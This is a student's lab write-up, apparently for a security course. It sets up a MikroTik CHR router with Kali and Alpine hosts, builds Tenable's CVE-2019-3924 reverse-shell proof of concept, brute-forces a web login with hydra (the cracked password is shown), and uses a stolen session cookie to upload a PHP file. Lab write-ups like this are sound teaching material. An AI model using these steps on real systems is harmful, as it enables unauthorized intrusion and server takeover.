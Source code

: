 ## Lab1&5

Setup:
- Kali Linux (attacker)
- alpline-lab5 (victim)
- Mikrotik CHR v 6.41.3

About Mikrotik CHR v 6.41.3:
CHR raw disk image downloaded form https://web.archive.org/web/20180328083525/https://mikrotik.com/download

![img-0](data/img-0.png)

Login: admin 
Password: `<empty string>`

![img-1](data/img-1.png)

KaliLinux as attacker host:
Download img from https://mac.getutm.app/gallery/kali-2023
And follow this guide https://docs.getutm.app/guides/kali/

The above steps were from lab 1, alpline-lab5 is specific for this paricular lab, installation process is the same as in previous labs. 

- Kali Linux ip -- 192.168.64.9
- Mikrotik CHR ip -- 192.168.64.16
- alpline-lab5 ip -- 10.42.3.100 (since i am doing this lab on macos)

First we open `192.168.64.16` in or browser, and we should see two interfaces booth:

![img-2](data/img-2.png)

![img-3](data/img-3.png)

Next we create interface lists to organize network interfaces into logical groups: "WAN" contains the ether3 (192.168.64.16/24) interface facing the NAT network where the Kali Linux attacker lives, "LAN" contains the ether2 (192.168.128.5/24) interface connecting to the Host-only network where the Alpine web server lives.

![img-4](data/img-4.png)

![img-5](data/img-5.png)


Next we configure NAT masquerading (so the Alpine server can access the internet for initialization)

![img-6](data/img-6.png)

And enable dude

![img-7](data/img-7.png)

Orther detailed configus, and overall expected CHR config is located in `chr_config.txt`

```
[admin@MikroTik] > export compact 
# may/04/2025 19:02:08 by RouterOS 6.41.3
# software id = 
#
#
#
/interface list
add name=WAN
add name=LAN
/interface wireless security-profiles
set [ find default=yes ] supplicant-identity=MikroTik
/dude
set enabled=yes
/interface list member
add interface=ether1 list=WAN
add interface=ether2 list=LAN
/ip address
add address=10.42.3.254/24 interface=ether2 network=10.42.3.0
/ip dhcp-client
add dhcp-options=hostname,clientid disabled=no interface=ether1
/ip firewall nat
add action=masquerade chain=srcnat out-interface-list=WAN
[admin@MikroTik] >  
```

Now, [exploit](https://github.com/tenable/routeros/blob/master/poc/cve_2019_3924/README.md)
Clone `https://github.com/tenable/routeros`

```
sudo apt install libboost-dev libboost-regex-dev libssl-dev build-essential cmake
cd routeros/poc/cve_2019_3924/
```

Here we first need to moddify the exploit 

```
mkdir build
cd build
cmake ..
make
./nvr_rev_shell --help # ot check
```

Now go to `http://10.42.3.100/init.php` and i enter my ucu mail.

![img-8](data/img-8.png)


Now we need to find the password

```
hydra -L user_list.txt \
-P 10-mil.txt \
-V \
10.42.3.100 http-post-form '/login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:F=Invalid username'
```

And here it is
```
[80][http-post-form] host: 10.42.3.100   login: admin   password: spiderman
[STATUS] attack finished for 10.42.3.100 (valid pair found)
```

Now we can log in

![img-9](data/img-9.png)

```
curl -X POST http://10.42.3.100/login.php \
  -d "username=admin&password=spiderman" \
  -c cookies.txt \
  -v
```

Cookie, session id: 8f14e45fceea167a5a36dedd4bea2543

With this session id we can now upload files

```
curl -X POST http://10.42.3.100/api_upload.php \
  -H "Cookie: PHPSESSID=8f14e45fceea167a5a36dedd4bea254" \
  -H "User-Agent: curl/8.5.0" \
  -F "file=@a.php"
```
